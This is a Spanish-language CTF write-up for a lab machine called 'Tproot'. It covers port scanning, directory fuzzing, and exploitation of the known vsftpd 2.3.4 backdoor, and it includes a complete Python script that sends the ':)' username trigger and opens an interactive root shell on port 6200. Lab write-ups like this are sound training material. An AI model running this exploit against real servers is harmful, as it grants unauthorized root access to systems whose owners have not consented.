 ```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓25/07/2025'
---
```


# Tproot

## 🕵️ Reconocimiento

Comenzamos con un escaneo de puertos con `nmap` :

<div align="left"><figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure></div>

Vemos que el login anónimo en el servidor FTP da fallo. El puerto 80 aloja un servidor web con la página por defecto de apache en el directorio raíz. Si le hacemos un listado de directorios, no encontramos nada relevante.

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://$IPTARGET/FUZZ
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Si buscamos algún exploit para los puertos encontrados, vemos que existe uno para el puerto `ftp` :

<div align="left"><figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure></div>

Esta versión de `FTP` presenta una vulnerabilidad de manera que si introducimos un nombre de usuario en el login del `FTP`  terminado en `:)` , se abre una backdoor en el puerto 6200 (más [info](https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=33416)).

## 🚪 Ganando acceso

Utilicé un exploit hecho en `python`  con la librería `socket` :

```python
#!/usr/bin/python3

import socket
import argparse
import time
import sys

parser = argparse.ArgumentParser(description='vsftpd 2.3.4 backdoor exploit')
parser.add_argument('-host', dest='host', required=True, help='IP del objetivo')
args = parser.parse_args()

host = args.host
ftp_port = 21
shell_port = 6200

# Paso 1: Enviar usuario malicioso por FTP
print(f"[+] Conectando al FTP en {host}:{ftp_port}")
try:
    s = socket.create_connection((host, ftp_port), timeout=5)
    banner = s.recv(1024).decode()
    print(f"[+] Banner recibido: {banner.strip()}")
    
    s.sendall(b'USER backdoor:)\r\n')
    s.recv(1024)  # leer respuesta

    s.sendall(b'PASS cualquiercosa\r\n')
    s.recv(1024)
    s.close()
except Exception as e:
    print(f"[-] Error al conectar al FTP: {e}")
    sys.exit(1)

# Esperar a que se abra la shell
print("[*] Esperando a que se active la backdoor (puerto 6200)...")
time.sleep(2)

# Paso 2: Conectarse al puerto 6200
print(f"[+] Intentando conexión a {host}:{shell_port}")
try:
    shell = socket.create_connection((host, shell_port), timeout=5)
    print("[+] ¡Conectado! Shell activa. Puedes escribir comandos. Usa 'exit' para salir.\n")

    while True:
        cmd = input("$ ")
        if cmd.strip().lower() == "exit":
            break
        shell.sendall((cmd + "\n").encode())
        time.sleep(0.5)
        data = shell.recv(4096)
        print(data.decode(errors='ignore'))

    shell.close()
except Exception as e:
    print(f"[-] No se pudo conectar al puerto 6200: {e}")
    sys.exit(1)
```

Al ejecutar el exploit, ganamos acceso con una shell como `root` :

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
